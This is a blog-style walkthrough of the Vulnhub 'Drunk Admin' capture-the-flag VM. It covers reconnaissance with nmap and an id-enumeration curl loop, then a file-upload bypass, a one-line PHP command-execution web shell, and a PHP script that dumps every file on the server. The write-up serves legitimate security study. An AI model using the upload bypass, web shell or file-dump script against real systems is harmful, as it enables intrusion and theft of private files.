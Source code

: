 ```yaml
---
layout: blog
title: Drunk Admin challenge
date:   2017-03-07 19:30:00 +0100
categories: itsec
comments: true
---
```


This walkthrough is about the [Drunk Admin](https://www.vulnhub.com/entry/drunk-admin-web-hacking-challenge-1,14/) challenge, I've found on [Vulnhub](https://www.vulnhub.com/). Just download the zip file, and create a VirtualBox machine from it, and you are ready to go.

## Recon
You can just log in to the console of the virtual machine with the credentials root:toor to find out the ip, or run the command `nmap -sP 192.168.58.1/24` for a ping sweep. Just make sure to use your own ip range. In my case, the host is 192.168.58.101, so I will use this address later.
Let's check the open ports of the machine, to find out possible vulnerable services, with `sudo nmap -A -O -p 1-65535 192.168.58.101`. The result is the following:
```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-06 23:11 CET
Nmap scan report for 192.168.58.101
Host is up (0.00063s latency).
Not shown: 64998 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze1 (protocol 2.0)
| ssh-hostkey: 
|   1024 57:a2:04:3d:6e:e5:01:7b:b4:c6:e5:f9:76:25:8a:8a (DSA)
|_  2048 66:9a:ee:a2:2a:1a:59:47:b9:c5:50:da:a6:96:76:16 (RSA)
8880/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Tripios
MAC Address: 08:00:27:06:12:7C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.26 - 2.6.35, Linux 2.6.32
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.58.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.06 seconds
```
Great, this means we have a running apache on port 8880, let's check it in a browser. It should look like this:
![Drunk Admin home page]({{ site.url }}/assets/images/drunk-admin-1.png)

## Explore the website
If you click on the PHP link on the bottom of the page, it leads to http://192.168.58.101:8880/myphp.php?id=102 . This is very suspicios, it seems like the id parameter can be tricked. There is a small shell script to scrape all the results in the range of 1 to 200, excluding the ones, which are protected by the php script, saying "Try harder".
[enummyphp.sh](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/enummyphp.sh)
```bash
#!/bin/bash
for N in {1..200}
do
    echo $N
    curl "http://192.168.58.101:8880/myphp.php?id=$N" > tmp
    if ! grep -q "Try harder" "tmp"; then
        cp tmp "$N.html"
        echo "http://192.168.58.101:8880/myphp.php?id=$N"
    fi
done
```
The results of the following script are:
* 101.html
* 102.html
* 104.html
* 108.html
* 116.html
* 132.html
* 164.html
* 99.html

All are phpinfo results, 99 is the full one, and 132 is the $\_SERVER variables. However, it is not a real exploit, so let's try to dig deeper. However, this information can be useful in the future.

## Exploit the website

Going through the website, the low hanging fruit is upload.php, which uploads a user specified picture, and provides a link for it, which looks like some hash, plus the extension. So the image upload works fine, as designed, but what happens, if I try to upload a php file? It seems like there is a restriction about file extensions, which is a great security feature, but does it work as designed?

Let's try to upload a file named sample.php.jpg. It doesn't display an error, however it doesn't display and image as well. After some digging in the request/response data, there is a suspicios cookie, named trypios, which contains a hash. What if I try to access this file in a way how images are stored, but with the hash plus php extesion? It actually works, and displays the result of the `phpinfo();` function. This vulnerability by [OWASP](https://www.owasp.org/) is specified as [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload). Let's see what we can do with this.

My first guess was to try to get a [Command Injection](https://www.owasp.org/index.php/Command_Injection), by uploading a vulnerable php script, which enables a user to execute any command under the web server's user privileges. It looks like this:

```php
<?php
exec($_GET['cmd']);
?>
```

Which results in a "Oh, you are naughty" message. After further investigation, my guess was that the upload script somehow verifies the content of the uploaded file, and disallows either the php function call exec, or the access of the variable $\_GET. But this doesn't stop me to enumerate the whole content of the webserver's root directory!

## Can I haz all the files?

So I created a simple php script to go through the whole content of the webserver, and print it. For the first try, it gave me some garbage, obviously the binary content of the uploaded images were present, so I had to exclude those. But what exclusion rule would be better, than the drunk admin's own?:)

[dirlist.jpg.php](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/dirlist.jpg.php)
```php
<?php 
function sd($dir){
	$dc = scandir($dir);
	foreach($dc as $f){
		if($f == "." || $f == ".." || preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $f)) continue;
		$f = $dir."/".$f;
		print $dir.$f."\n";
		if(is_dir($f)){
			print "dir";
			sd($f);
		}elseif(is_file($f)){
			print("<h3>$f</h3>");
			print_r(file_get_contents($f));
		}
    }
}
sd("../");
?>
```
Let's see what we got! There is a file, which is not accessible by the public, it has been disabled by an .htaccess configuration rule, which is a great practice, but php can read it regardless, and this is our next step. The filename is .proof, and the content is:

```
# Drunk Admin Challenge #
#     by @anestisb  #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```
Gotcha. At least we know the message, but not the place. What is this secret code for? Let's try to dig deeper.

## Solution
As we have seen previously, the [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) is enabled, which allows users to share their content on the webserver, by creating a directory named public_html in their home directory. What if I'm very greedy, and try to get all the contents of the home directories in the system, by using the php script I used to enumerate the root of the webserver?

So it seems, there is a user called bob, who uses this feature of [Apache](https://httpd.apache.org/). And in the folder /home/bob/public_html, we can find some very interesting content. After trying to input the secret from the previous message to http://192.168.58.101/~bob/, and receiving some garbage, I went through the contents of other php files, eg. encrypt.php. So it seems like bob uses [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) to hide his secret from us. But this code doesn't return any useful answer, and after checking the actual index.php script, the cipher looks like some base64 encoded string. Decoding the secret with base64, and posting to index.php reveals the last information for the secret meeting:
```
Alice, prepare for a kinky night. Meet me at '35.517286' '24.017637'
```
It's time to travel to Crete!
